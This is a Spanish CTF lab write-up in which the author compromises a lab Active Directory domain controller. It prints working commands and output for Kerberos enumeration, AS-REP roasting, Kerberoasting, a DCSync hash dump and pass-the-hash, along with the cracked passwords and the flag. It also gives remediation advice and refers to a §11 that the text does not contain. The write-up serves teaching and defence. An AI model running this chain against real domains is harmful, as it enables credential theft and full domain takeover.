# ORTHRUS — Writeup de Auditoría de Seguridad (CTF)

| Campo | Valor |
|---|---|
| **Laboratorio** | ORTHRUS — *CPENT · Active Directory* |
| **Plataforma** | Whoami-Labs |
| **Dificultad** | Media |
| **Categoría** | Pivoting |
| **Autor del writeup** | chifay |
| **Fecha** | 19/10/2026 |
| **Objetivo** | `172.16.202.130` (máquina virtual OVA — DC Windows Server 2019) |
| **Atacante** | Kali Linux — `172.16.202.129` |
| **Hostname del objetivo** | `WIN-CFIU5AU7L2D` |
| **Dominio** | `corp.local` (NetBIOS `CORP`) |
| **Stack del objetivo** | Windows Server 2019 Standard Evaluation · build 17763 · AD DS |
| **Bandera obtenida** | `CPENT{k3rb3r05_r045t_d0m41n_4dm1n_2026}` |
| **Estado** | Obtenida y reproducida (con herramientas propias y con las incluidas en Kali); validación en el panel pendiente de envío |
| **Vector de entrada** | AS-REP roasting de `svc_backup` (cuenta sin preautenticación) |
| **Ruta completa** | Enumeración Kerberos → AS-REP roast `svc_backup` → Kerberoast `svc_sql` → `svc_sql` en `BUILTIN\Administrators` → DCSync de `Administrator` → pass-the-hash → bandera |

> **Restricción del ejercicio:** el análisis se hizo exclusivamente por red. No se inspeccionó la
> imagen OVA, ni su configuración, ni el disco del controlador de dominio por otra vía que la propia
> cadena de ataque documentada aquí. El único acceso al disco del DC fue a través de las credenciales
> obtenidas durante la auditoría.

---

## 1. Resumen ejecutivo

ORTHRUS es una máquina virtual (OVA) que se conecta **directamente a la misma red que Kali**. En vez de
un contenedor con servicios aislados, el objetivo es un **controlador de dominio de Active Directory**
completo: `corp.local`, host `WIN-CFIU5AU7L2D`, Windows Server 2019. Del total de puertos TCP, 21 están
abiertos y todos pertenecen a la pila de AD (DNS, Kerberos, LDAP, SMB, RPC, WinRM). **No hay web de
aplicación, ni SSH, ni FTP**: toda la superficie de ataque es el dominio.

El laboratorio se publicó el 17/10/2026, dos días antes de esta auditoría, y en ese momento no existía
ningún writeup público ni referencia externa: el análisis se hizo enteramente desde cero.

La cadena es una **escalada por cuentas**, no por red:

1. Sin credenciales, se enumeran los usuarios del dominio **preguntando al KDC** (AS-REQ sin
   preautenticación). De 144 candidatos, solo existen 5.
2. **`svc_backup` no requiere preautenticación**: su AS-REP se captura y se rompe offline
   (`Password123`).
3. Con esa cuenta se hace **Kerberoasting** sobre los SPN del bosque. El servicio `svc_sql` tiene tres
   SPN y, sobre todo, es **miembro de `CN=Administrators,CN=Builtin`** en el DC. Su TGS también cae:
   `Password123`.
4. `svc_sql` es **administrador local del controlador de dominio**. Desde ahí se ejecuta **DCSync** y
   se extrae el hash NTLM de `Administrator`.
5. Con pass-the-hash se confirma el compromiso total y se lee la bandera del escritorio del
   administrador.

A pesar de la categoría «pivoting», **no existe un segundo host ni un segundo segmento**: se comprobó
por barrido ARP, por la zona DNS del DC y por los objetos de equipo de LDAP. Los SPN
`intranet.corp.local` y `db01.corp.local` son señuelos: no resuelven en DNS y no existe ningún objeto
de equipo con esos nombres. El *pivoting* del laboratorio es, por tanto, **de cuentas**:
`svc_backup` → `svc_sql` → `Administrator`.

Toda la cadena se reproduce además con **herramientas incluidas en Kali** (`nmap`, `impacket-*`,
`john`, `crackmapexec`): el único script propio, el enumerador Kerberos, puede sustituirse por el
script nativo de `nmap` (`krb5-enum-users`), que da el mismo resultado (ver §11).



| # | Vector | De → A |
|---|---|---|
| 1 | Enumeración de usuarios por Kerberos (sin credenciales) | anónimo → 5 cuentas reales |
| 2 | AS-REP roasting de `svc_backup` (sin preauth) | anónimo → `svc_backup:Password123` |
| 3 | Kerberoasting de `svc_sql` con `svc_backup` | `svc_backup` → `svc_sql:Password123` |
| 4 | `svc_sql` en `BUILTIN\Administrators` del DC | `svc_sql` → administrador local |
| 5 | DCSync + pass-the-hash | administrador local → `Administrator` → bandera |

---

## 2. Reconocimiento

### 2.1 Descubrimiento del host

Kali está en `172.16.202.129/24`. El laboratorio se levantó como OVA en la misma red, así que el primer
paso fue un barrido ARP del segmento:

```bash
nmap -sn -PR 172.16.202.0/24
```

Aparece un único host nuevo, `172.16.202.130`, con MAC de VMware (`00:0C:29:2B:B1:46`). El resto de
direcciones que responden son infraestructura del hipervisor: `172.16.202.1` (filtra todos los
puertos), `172.16.202.2` y `172.16.202.254` (puerta de enlace y servicios de red).



| Puerto | Estado | Servicio |
|---|---|---|
| 53/tcp | open | DNS |
| 88/tcp | open | Kerberos |
| 135/tcp | open | MSRPC |
| 139/tcp | open | NetBIOS |
| 389/tcp | open | LDAP |
| 445/tcp | open | SMB |
| 464/tcp | open | kpasswd |
| 593/tcp | open | RPC over HTTP |
| 636/tcp | open | LDAPS |
| 3268/tcp | open | Global Catalog |
| 3269/tcp | open | Global Catalog (SSL) |
| 5985/tcp | open | WinRM |
| 9389/tcp | open | AD Web Services |
| 49666, 49667, 49669, 49670, 49672, 49673, 49683, 49691/tcp | open | RPC dinámico |

### 2.2 Dominio y controlador

El escaneo de versiones identifica sin ambigüedad el rol del host:



```
389/tcp  open  ldap  Microsoft Windows Active Directory LDAP (Domain: corp.local, ...)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
5985/tcp open  http  Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: WIN-CFIU5AU7L2D; OS: Windows
```

Datos clave del reconocimiento:

- **Dominio:** `corp.local`; **DC:** `win-cfiu5au7l2d.corp.local` → `172.16.202.130`.
- **SO:** Windows Server 2019 Standard Evaluation (build 17763).
- **SMB:** firma obligatoria (`Message signing enabled and required`), por lo que el relay NTLM
  queda descartado de entrada.
- **DNS:** la zona solo contiene el propio DC; no hay registros para `intranet`, `db01` ni ningún otro
  host. La transferencia de zona (`AXFR`) está denegada.

### 2.3 Enumeración anónima



Sin credenciales se puede obtener muy poco, y conviene ser preciso con lo que cada respuesta significa:

| Vector | Resultado |
|---|---|
| `smbclient -L //172.16.202.130/ -N` | «Anonymous login successful», pero **cero recursos** |
| `crackmapexec smb -u '' -p '' --shares` | `STATUS_ACCESS_DENIED` al enumerar shares |
| `rpcclient -U "" -N` | `NT_STATUS_ACCESS_DENIED` |
| `ldapsearch` anónimo | El *rootDSE* responde, pero las consultas exigen bind |
| `dig AXFR` | `Transfer failed` |
| `enum4linux -a` | Solo el dominio (`CORP`) y el SID `S-1-5-21-2314756761-1692085105-450277737` |

Dos matices aprendidos aquí:

- **«Anonymous login successful» no significa acceso.** SMB acepta la sesión nula, pero no lista ni un
  recurso; es un mensaje engañoso si se lee aislado.
- **El *rootDSE* público no implica LDAP anónimo.** El DC publica su información de raíz (contextos de
  nombres, funcionalidad), pero cualquier consulta de objetos falla con
  `a successful bind must be completed on the connection`.

Con LDAP, RPC y DNS cerrados, la única vía que queda para enumerar usuarios es **Kerberos**.

---

## 3. Enumeración de usuarios por Kerberos

Kerberos permite preguntar al KDC si un principal existe **sin enviar ninguna contraseña**: basta un
`AS-REQ` sin preautenticación y leer el código del `KRB-ERROR` que devuelve:

| Código | Significado |
|---|---|
| `25` (`KDC_ERR_PREAUTH_REQUIRED`) | El usuario existe y pide preautenticación |
| `18` (`KDC_ERR_CLIENT_REVOKED`) | El usuario existe pero está deshabilitado |
| `6` (`KDC_ERR_C_PRINCIPAL_UNKNOWN`) | El usuario no existe |

La herramienta propia `exploits/krbenum.py` implementa ese sondeo en paralelo. Con una lista de 144
candidatos (`wordlists/users_corp.txt`):



```
  [+] administrator                EXISTE (25)
  [+] guest                        EXISTE (18)
  [+] krbtgt                       EXISTE (18)
  [+] svc_backup                   ASREP_SIN_PREAUTH
  [+] svc_sql                      EXISTE (25)

=== 5 existentes de 144 probados ===
```

El resultado deja claro el patrón del laboratorio: las cuentas reales son **cuentas de servicio**
(`svc_*`) y las integradas. `guest` y `krbtgt` existen pero están deshabilitadas. Y `svc_backup`
devuelve la joya: **`ASREP_SIN_PREAUTH`**, es decir, `UF_DONT_REQUIRE_PREAUTH` está activado.

> **Lección de método (falso positivo):** la primera versión del enumerador daba por buena cualquier
> respuesta sin excepción y marcaba `administrator` como «ASREP_SIN_PREAUTH». El error era de
> suposición: en `impacket`, `sendReceive()` **no lanza excepción** cuando el KDC devuelve un
> `KRB-ERROR`; hay que **decodificar** la respuesta. Corregido el script (ver
> `exploits/krbenum.py`), `administrator` aparece correctamente como `EXISTE (25)`. Un error de una
> línea separaba «enumerar» de «creer que se ha enumerado».

> **Alternativa sin código propio:** la misma enumeración puede hacerse con el script nativo de `nmap`
> (`--script krb5-enum-users`), incluido en Kali. Devuelve las tres cuentas relevantes en menos de un
> segundo; el detalle está en §11.

---

## 4. AS-REP roasting: `svc_backup`

Una cuenta con `UF_DONT_REQUIRE_PREAUTH` entrega su AS-REP **sin demostrar identidad**. Ese AS-REP
incluye material cifrado con la clave del usuario, que se puede atacar offline:



```bash
impacket-GetNPUsers corp.local/ -no-pass \
  -usersfile wordlists/users_corp.txt \
  -dc-ip 172.16.202.130 -format hashcat
```

```
$krb5asrep$23$svc_backup@CORP.LOCAL:...
```

El crackeo con `john` y `rockyou.txt` es inmediato:

```
$ john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt loot/asrep_hash.txt
Password123      ($krb5asrep$23$svc_backup@CORP.LOCAL)
1 password hash cracked, 0 left
```

Credencial obtenida: **`svc_backup:Password123`**. La cuenta está descrita en el dominio como
«Cuenta de servicio de respaldos nocturnos - Legacy System», y su contraseña no cumple ningún criterio
de robustez.

---

## 5. Kerberoasting: `svc_sql`

Con una cuenta de dominio válida se piden boletos de servicio para todos los SPN. El TGS llega cifrado
con la clave de la cuenta de servicio y se ataca offline:



```bash
impacket-GetUserSPNs corp.local/svc_backup:Password123 \
  -dc-ip 172.16.202.130 -request
```

| SPN | Cuenta | Grupo |
|---|---|---|
| `HTTP/intranet.corp.local` | `svc_sql` | `CN=Administrators,CN=Builtin,DC=corp,DC=local` |
| `MSSQLSvc/db01.corp.local` | `svc_sql` | `CN=Administrators,CN=Builtin,DC=corp,DC=local` |
| `MSSQLSvc/db01.corp.local:1433` | `svc_sql` | `CN=Administrators,CN=Builtin,DC=corp,DC=local` |

La columna `MemberOf` es la que decide el laboratorio: `svc_sql` no es una cuenta de servicio
cualquiera, es **administrador local del DC** (grupo integrado `Administrators` del dominio).

El TGS cae con la misma facilidad que el AS-REP:

```
$ john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt loot/tgs_hash.txt
Password123      (?)
1 password hash cracked, 0 left
```

Credencial obtenida: **`svc_sql:Password123`**. Dos cuentas de servicio distintas comparten la misma
contraseña débil; ese es el verdadero «pivoting» del reto: de una cuenta de respaldos sin privilegios a
una cuenta con control administrativo del DC.

### 5.1 Política de contraseñas y shares



Con `svc_backup` se enumeran los recursos y la política del dominio:

- Shares visibles: solo los por defecto (`NETLOGON`, `SYSVOL`, `IPC$`, `ADMIN$`, `C$`). En `SYSVOL` no
  hay scripts con credenciales.
- Contraseña mínima: 7 caracteres; complejidad activada; **sin umbral de bloqueo**
  (`Account Lockout Threshold: None`). Un dominio así permite probar contraseñas sin arriesgar el
  bloqueo de cuentas, pero en este caso no hizo falta.

### 5.2 Los SPN señuelo

`intranet.corp.local` y `db01.corp.local` apuntan a una supuesta red interna, pero se comprobó que:

- no tienen registro `A` en la zona DNS del DC;
- no existe ningún objeto de equipo (`objectClass=computer`) con esos nombres en LDAP;
- el propio DC solo tiene una interfaz, `172.16.202.130/24`.

No hay a dónde pivotar por red. Son artefactos del escenario para reforzar la temática de «pivoting».

---

## 6. Compromiso de dominio

### 6.1 `svc_sql` es administrador local del DC



```
[+] corp.local\svc_sql:Password123 (Pwn3d!)
```

`Pwn3d!` confirma permisos administrativos por SMB; WinRM (5985) responde igual, lo que da ejecución
de comandos en el DC.

### 6.2 DCSync

El grupo integrado `Administrators` del DC tiene, por defecto, el derecho **Replicating Directory
Changes** (y `Replicating Directory Changes All`). Ese es el permiso que usa DCSync para pedir a
`DRSUAPI` los secretos del dominio como si fuera otro controlador de dominio:



```bash
impacket-secretsdump corp.local/svc_sql:Password123@172.16.202.130 \
  -just-dc-user Administrator
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:88e1db77ee01e9e14dfc4dac2617f266:::
```

Con el hash NTLM de `Administrator` (`88e1db77ee01e9e14dfc4dac2617f266`) el dominio queda
comprometido. El pass-the-hash lo confirma:

```
[+] corp.local\Administrator:88e1db77ee01e9e14dfc4dac2617f266 (Pwn3d!)
```

### 6.3 Bandera



La bandera está en `C:\Users\Administrator\Desktop\FLAG_DOMAIN_ADMIN.txt` (209 bytes):

```
CPENT{k3rb3r05_r045t_d0m41n_4dm1n_2026}

[+] DOMAIN COMPROMISE VERIFIED - EXAMEN CPENT EC-COUNCIL
[+] Modulo 09: Active Directory Penetration Testing
[+] Instructor: Hector Camacho / Academia Edutek
```

El propio fichero incluye las líneas de verificación del escenario: confirma que el objetivo era el
compromiso de dominio del módulo de Active Directory.

---

## 7. Ruta completa de ataque

| Paso | Acción | Resultado |
|---|---|---|
| 1 | `nmap -sn -PR 172.16.202.0/24` | `172.16.202.130` (DC Windows) |
| 2 | `nmap -Pn -p- --min-rate 2000` | 21 puertos AD abiertos |
| 3 | LDAP / DNS / SMB anónimos | Dominio `corp.local`, DC `WIN-CFIU5AU7L2D`; sin usuarios |
| 4 | `krbenum.py` (o `nmap --script krb5-enum-users`) con 144 candidatos | 5 cuentas; `svc_backup` sin preauth |
| 5 | `impacket-GetNPUsers` + `john` | **`svc_backup:Password123`** |
| 6 | `impacket-GetUserSPNs` + `john` | **`svc_sql:Password123`** (3 SPN, `BUILTIN\Administrators`) |
| 7 | `crackmapexec smb -u svc_sql` | `(Pwn3d!)` — administrador local del DC |
| 8 | `impacket-secretsdump -just-dc-user Administrator` | NTLM `88e1db77ee01e9e14dfc4dac2617f266` |
| 9 | `impacket-wmiexec -hashes` | Lectura de `FLAG_DOMAIN_ADMIN.txt` |
| 10 | Validación en el panel de la plataforma | Pendiente de envío |

---

## 8. Recomendaciones de corrección

| # | Hallazgo | Mitigación |
|---|---|---|
| 1 | `svc_backup` con `UF_DONT_REQUIRE_PREAUTH` | Eliminar el flag en todas las cuentas; la preautenticación es obligatoria en Kerberos moderno |
| 2 | Contraseñas débiles y compartidas en cuentas de servicio | Contraseñas largas y únicas, o cuentas de servicio gestionadas (`gMSA`); rotación periódica |
| 3 | `svc_sql` en `BUILTIN\Administrators` del DC | Separación de funciones: una cuenta de servicio de BD nunca debe administrar el DC |
| 4 | Kerberoasting posible por cifrado RC4 (etype 23) | Deshabilitar RC4 y forzar AES; revisar SPN innecesarios |
| 5 | Sin umbral de bloqueo de cuentas | Definir una política de bloqueo (o *fine-grained password policy*) para cuentas privilegiadas |
| 6 | DCSync sin detección | Auditar el evento 4662 con `Replicating Directory Changes`; alertar cuando lo use una cuenta no-DC |
| 7 | WinRM expuesto (5985) | Restringir por red y por grupos; no permitir administración remota desde todo el segmento |
| 8 | Servicios de AD expuestos a la red del atacante | Segmentar el DC: solo los clientes de gestión deberían alcanzar 389/445/5985 |

> Nota: la firma SMB ya estaba activada (`Message signing enabled and required`), lo que bloquea el
> relay NTLM. Es la única buena práctica destacable del escenario.

---

## 9. Indicadores de compromiso (IOC)

| Tipo | Valor |
|---|---|
| Bandera | `CPENT{k3rb3r05_r045t_d0m41n_4dm1n_2026}` |
| Cuenta vulnerable | `svc_backup` con `UF_DONT_REQUIRE_PREAUTH` |
| Hash AS-REP | `$krb5asrep$23$svc_backup@CORP.LOCAL:...` (guardado en `loot/`) |
| Hash TGS | `$krb5tgs$23$*svc_sql$CORP.LOCAL$...` (guardado en `loot/`) |
